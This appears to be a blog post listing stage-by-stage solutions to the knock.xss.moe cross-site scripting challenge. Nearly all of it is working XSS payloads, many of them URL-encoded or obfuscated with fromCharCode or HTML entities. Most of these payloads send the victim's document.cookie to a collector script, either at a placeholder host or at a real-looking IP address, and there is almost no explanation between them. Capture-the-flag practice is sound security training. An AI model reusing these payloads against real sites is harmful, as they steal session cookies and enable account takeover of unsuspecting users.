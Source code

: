 ```yaml
---
layout : post
title : knock.xss.moe
---
```


All solution
Ranking #41
{% highlight python linenos %}
stage3:
http://68e3b596ebf790e8a781b8d87b84af7eb7b0aeb3.knock.xss.moe/?q=%22%3E%3Cscript%20language%3D%22JavaScript%22%3Edocument.location%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%27%2bdocument.cookie%3B%3C%2fscript%3E

stage5:
</textarea><script>alert('xxx')</script>

stage6:
</xmp><script>alert('xxx')</script>
{% endhighlight %}

stage7:
```
http://8005f6694d2862438bad3715436522e27dbd81a4.knock.xss.moe/?q=%22%20onfocus%3D%22%20location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%22%20autofocus%3D%22
```
stage8

stage9:
http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=%00%00%20autofocus%20onfocus%3Dlocation.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie


stage10:
http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=javascript:document.location.href='http://xxx/get_cookie.php?cookie'+document.cookie

stage11:
<iframe src="XSS"></iframe>
http://38e585f94f9d1f6bb79e88b74f3a5b5871d5bb84.knock.xss.moe/?q=javascript%3Adocument.location.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%22%2bdocument.cookie%3B

stage12:

javascript:window.open(`http://xxxx/?x=`+document.cookie)


stage13:
<script language=javascript>eval(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 108, 111, 99, 97, 116, 105, 111, 110, 46, 104, 114, 101, 102, 61, 39, 104, 116, 116, 112, 58, 47, 47, 103, 111, 111, 103, 108, 101, 46, 99, 111, 109, 39 ))</script>


stage 14:
http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?document.domain=%22knock.xss.moe%22;eval(String.fromCharCode(119,%20105,%20110,%20100,%20111,%20119,%2046,%20111,%20112,%20101,%20110,%2040,%2034,%20104,%20116,%20116,%20112,%2058,%2047,%2047,%2049,%2049,%2056,%2046,%2054,%2057,%2046,%2049,%2051,%2053,%2046,%2049,%2054,%2051,%2047,%20103,%20101,%20116,%2095,%2099,%20111,%20111,%20107,%20105,%20101,%2046,%20112,%20104,%20112,%2063,%2099,%20111,%20111,%20107,%20105,%20101,%2061,%2034,%2043,%20112,%2097,%20114,%20101,%20110,%20116,%2046,%20100,%20111,%2099,%20117,%20109,%20101,%20110,%20116,%2046,%2099,%20111,%20111,%20107,%20105,%20101,%2041))

stage 15:
http://e3bcee011cad77ba066ca7c2ad2884372aec9566.knock.xss.moe/?q=%3Cimg%20src%3D1%20onerror%3Dwindow.location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3B%3E


stage 17:
http://34a131df991487bf58d3df0a85e247d396fb93a0.knock.xss.moe/?q=javascript%3Alocation.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%22%2bdocument.cookie


stage 19:
<body onload="alert('XXX, &#039; ,0,window.open(&#039;http://xxx/get_cookie.php?cookie&#039; document.cookie));"//')">
http://224d0c5677307d743ba90c8f81e42f5be648cd97.knock.xss.moe/?q=1%27%2C0%2Cwindow.open%28%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%29%29%3B%2f%2f


stage 21:
X-XSS-Protection:1; mode=block
http://49ab9ff165cd76ffe06af0b72f450c82f35db396.knock.xss.moe/?q=%3CscripT%3Edocument.locascripttion.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3C%2fsCripT%3E


stage 22:
http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f1984268195%2f%3Fx%3D%22%2bdocument.cookie%29%3E


Local file:
<script>
window.name = "location.href='http://xxxx/?'+document.cookie";
location.href = "http://target.knock.xss.moe/?q=%3Csvg/onload=eval(name)%3E";
</script>

stage 23 & 24:
http://51b123fbd6a21b3cf43f49e0a1014221e191c7db.knock.xss.moe/?q=<svg/onload=window.open("//118.69.135.163")>

stage 25:
http://8e67e39d7e01213d5551c696ef8641b625cc8dd7.knock.xss.moe/?q=%3Ciframe%20src%3D%27%2f%2f118.69.135.163%27%3E

stage 26:
http://89078a2f1f0b7d9f210b1876f4b20ada0a090ebb.knock.xss.moe/?q=%3CIMG%20SRC%3D1%20onerror%3D%26%23119%3B%26%23105%3B%26%23110%3B%26%23100%3B%26%23111%3B%26%23119%3B%26%2346%3B%26%23111%3B%26%23112%3B%26%23101%3B%26%23110%3B%26%2340%3B%26%2334%3B%26%2347%3B%26%2347%3B%26%2349%3B%26%2349%3B%26%2356%3B%26%2346%3B%26%2354%3B%26%2357%3B%26%2346%3B%26%2349%3B%26%2351%3B%26%2353%3B%26%2346%3B%26%2349%3B%26%2354%3B%26%2351%3B%26%2347%3B%26%23103%3B%26%23101%3B%26%23116%3B%26%2395%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2346%3B%26%23112%3B%26%23104%3B%26%23112%3B%26%2363%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2334%3B%26%2343%3B%26%23100%3B%26%23111%3B%26%2399%3B%26%23117%3B%26%23109%3B%26%23101%3B%26%23110%3B%26%23116%3B%26%2346%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2341%3B%3E



stage 27:
http://295a1d900c5bf618101abf69083622d0f69aded1.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%27location%27%5D%3D%22http%3A%2f%2f%2f1984268195%2f%3F%22%2bdocument%5B%27cookie%27%5D%3

stage 28:
http://02f6f47ddaa7b22137a74843f2c4f1ac915dda3b.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D%3E

stage 29:
http://a4bf8393a4159b94aa4b84e9a134d5e6140f3c34.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D


stage 30:

http://ebf510ac2d79576cd5b7d45412eaf3eed1781bd0.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D

stage 31:
http://bb84607f02113a22396438c9a67e4c5abdfd6561.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 32:
http://859c559a54a1e9b761f8dae102af5edb2ab44215.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 33:
http://b236561a32729676d1ec2231e8726a0b5ee5bf57.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 34:
http://[stage34]/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29


Thanks @ml and @tsu for sharing!
